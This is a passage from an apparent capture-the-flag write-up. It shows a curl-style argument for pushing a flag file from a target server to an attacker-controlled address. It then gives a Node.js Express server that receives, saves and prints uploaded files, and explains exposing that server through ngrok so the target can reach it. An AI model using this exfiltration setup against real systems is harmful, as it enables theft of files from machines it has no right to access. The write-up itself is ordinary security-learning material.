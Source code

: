 ```bash
-F file=@<the flag file> <ip address of server>
```

Next, after we know how to push the file, we need to create a server that can retrieve our file from the server. So, I've decided to use nodejs server instead since I am well verse a bit with javascript. The script as follows.

```js
const express = require('express');
const multer = require('multer');
const fs = require('fs');
const path = require('path');

// Set up storage (in memory or to disk)
const upload = multer({ dest: 'uploads/' }); // files will be saved to ./uploads/

const app = express();
const PORT = 3000;

// POST endpoint to receive the file
app.post('/upload', upload.single('file'), (req, res) => {
    if (!req.file) {
        return res.status(400).send('No file uploaded.');
    }

    const originalName = req.file.originalname;
    const savedPath = path.resolve(req.file.path);

    console.log(`File received: ${originalName}`);
    console.log(`Saved to: ${savedPath}`);

    // Optional: read and respond with the file content
    const fileContent = fs.readFileSync(savedPath, 'utf-8');
    console.log("File contents:", fileContent);

    res.send(`File "${originalName}" received.\n\nContents:\n${fileContent}`);
});

app.listen(PORT, () => {
    console.log(`Server running on http://localhost:${PORT}`);
});

```

The server will retrieve and save the content into a file in `uploads/`. Then, since this server runs locally, I need a way for the server to reach this locally hosted server. For that, I've used ngrok to obtain an public hostname for the server to connect.

Using this command, this will forward http protocol at port 80 to my nodejs server which is hosted at port 3000.

>You can follow instructions over at [ngrok](https://ngrok.com/docs/getting-started/) on how to setup your own ngrok server.
{: .prompt-info}
